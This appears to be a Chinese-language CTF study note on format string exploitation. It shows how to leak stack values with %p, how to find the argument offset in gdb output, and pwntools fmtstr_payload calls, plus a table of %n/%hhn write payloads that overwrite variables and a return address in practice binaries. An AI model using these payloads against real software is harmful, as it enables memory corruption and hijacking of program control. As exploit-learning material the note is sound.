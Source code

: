 套路
1. 泄露栈修改返回值, 先泄露个栈地址


1. 可以一次泄露多个目标值
   sla('Now answer me, will you v me 50\n','aaaaaaa,%11$p,%17$p')

2. 计算偏移值

```sh
format_level1 为例，
b*0x0x8049684 \n r, 输入3
► 0x8049684 <talk+81>     call   read@plt

gdb$ ni
输入 aaaabaaacaaadaaa

   0x8049684 <talk+81>     call   read@plt
► 0x8049689 <talk+86>     add    esp, 0x10

gdb$ stack
00:0000│   esp 0xffffd320 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数1: 格式化字符
01:0004│ 1     0xffffd324 —▸ 0xffffd33c ◂— 'aaaabaaacaaadaaa' ; 参数2: 地址, 从这里数
02:0008│ 2     0xffffd328 ◂— 0x10
03:000c│ 3     0xffffd32c —▸ 0x8049643 (talk+16) ◂— add ebx, 0x2975
04:0010│ 4     0xffffd330 —▸ 0xf7fa4620 (_IO_2_1_stdin_) ◂— 0xfbad208b
05:0014│ 5     0xffffd334 —▸ 0x804a231 ◂— 0x47006425 /* '%d' */
06:0018│ 6     0xffffd338 —▸ 0xffffd354 —▸ 0x804bfb8 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804bec0 (_DYNAMIC) ◂— 0x1
07:001c│ 7 eax 0xffffd33c ◂— 'aaaabaaacaaadaaa'               ; 为第7个
08:0020│     0xffffd340 ◂— 'baaacaaadaaa'
gdb$ fmtarg 0xffffd33c  -> 7 ("\%6$p") 也是7
```

3
```sh
# 修改多值写法
fmtstr_payload(10, {0x404048 : 0xbadc0ffe, 0x40403c : 0xdeadbeef}, no_dollars=True)
```

测试值

| payload                                          | value                   | Desc                                                      |
| ------------------------------------------------ | ----------------------- | --------------------------------------------------------- |
| `b'%8$p'`                                        | 输入 8 偏移的地址       |                                                           |
| `b'%8$n' + p32(dragon_hp)`                       | -1                      |                                                           |
| `b'c%9$naaa' + p32(dragon_hp)`                   | 0                       | 这时栈中 第 7 个: `c%9$` 第 8 个 `naaa` 第 9 个 dragon_hp |
| `b'%128c%10$nbb' + p32(dragon_hp+3)`             | dragon_hp+3 设置为 0x80 | `bb`是填充 4 字节对齐, 用`aa`或者其他都行                 |
| `p32(dragon_hp) + b'%7\$n'`                      | 0x3                     | 正常可能是 4,前面 4 个字节                                |
| `p32(dragon_hp) + b'%15c%7\$n'`                  | 0x12 = 15+3             |                                                           |
| `b"%23p%10$hhn".ljust(12, b'a') + p32(func_ret)` |                         | func_ret 修改为 23 -> 0x17 , 用 c 和用 p 效果一样         |
